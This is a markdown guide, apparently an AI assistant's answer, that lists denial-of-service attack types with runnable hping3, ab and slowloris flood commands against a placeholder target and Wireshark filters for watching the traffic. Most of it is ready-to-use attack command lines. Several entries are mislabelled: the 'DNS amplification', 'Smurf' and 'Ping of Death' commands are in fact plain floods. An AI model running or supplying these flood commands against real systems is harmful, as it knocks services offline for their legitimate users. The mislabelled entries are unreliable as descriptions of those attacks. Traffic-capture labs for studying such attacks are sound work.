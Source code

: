 ### 1. Volume-Based Attacks
**Aim:**
Volume-based attacks aim to overwhelm the target with a massive amount of traffic, consuming bandwidth and resources.

**Types:**
- **UDP Flood:**
  - **Command:**
    ```bash
    hping3 -2 -p 53 --flood -V <target_ip>
    ```
  - **Wireshark Filter:**
    ```plaintext
    udp
    ```

- **ICMP Flood (Ping Flood):**
  - **Command:**
    ```bash
    hping3 -C 8 --flood -V <target_ip>
    ```
  - **Wireshark Filter:**
    ```plaintext
    icmp
    ```

- **DNS Amplification:**
  - **Command:**
    ```bash
    hping3 -2 -p 53 --flood -V <target_ip>
    ```
  - **Wireshark Filter:**
    ```plaintext
    dns
    ```

**Effect:**
These attacks can saturate the target's bandwidth, making it unavailable to legitimate users.

### 2. Protocol Attacks
**Aim:**
Protocol attacks exploit weaknesses in the network protocol stack, consuming server resources.

**Types:**
- **SYN Flood:**
  - **Command:**
    ```bash
    hping3 -S -p 80 --flood -V <target_ip>
    ```
  - **Wireshark Filter:**
    ```plaintext
    tcp.flags.syn == 1
    ```

- **Ping of Death:**
  - **Command:**
    ```bash
    hping3 -C 8 --flood -V -d 65500 <target_ip>
    ```
  - **Wireshark Filter:**
    ```plaintext
    icmp
    ```

- **Smurf Attack:**
  - **Command:**
    ```bash
    hping3 -C 8 --flood -V <target_ip>
    ```
  - **Wireshark Filter:**
    ```plaintext
    icmp
    ```

**Effect:**
These attacks can exhaust server resources, leading to denial of service.

### 3. Application Layer Attacks
**Aim:**
Application layer attacks target specific applications or services, overwhelming them with requests.

**Types:**
- **HTTP GET/POST Flood:**
  - **Command:**
    ```bash
    ab -n 10000 -c 100 <target_url>
    ```
  - **Wireshark Filter:**
    ```plaintext
    http
    ```

- **Slowloris:**
  - **Command:**
    ```bash
    slowloris <target_ip> -p 80 -s 500 -t 100
    ```
  - **Wireshark Filter:**
    ```plaintext
    http
    ```

- **XML/JSON API Flood:**
  - **Command:**
    ```bash
    ab -n 10000 -c 100 -p postdata.txt <target_url>
    ```
  - **Wireshark Filter:**
    ```plaintext
    http
    ```

**Effect:**
These attacks can exhaust application resources, making the service unavailable to legitimate users.

### Capturing Traffic with Wireshark
To capture the traffic for these attacks, follow these steps:

1. **Start Wireshark:**
   - Open Wireshark and select the network interface you want to capture traffic on.

2. **Apply Filters:**
   - Use the appropriate Wireshark filters mentioned above to capture the specific type of traffic.

3. **Start Capture:**
   - Begin the capture before initiating the attack.

4. **Analyze Traffic:**
   - After the attack, stop the capture and analyze the traffic to observe the effects of the attack.

Would you like me to explain or break down any of the commands or filters further?
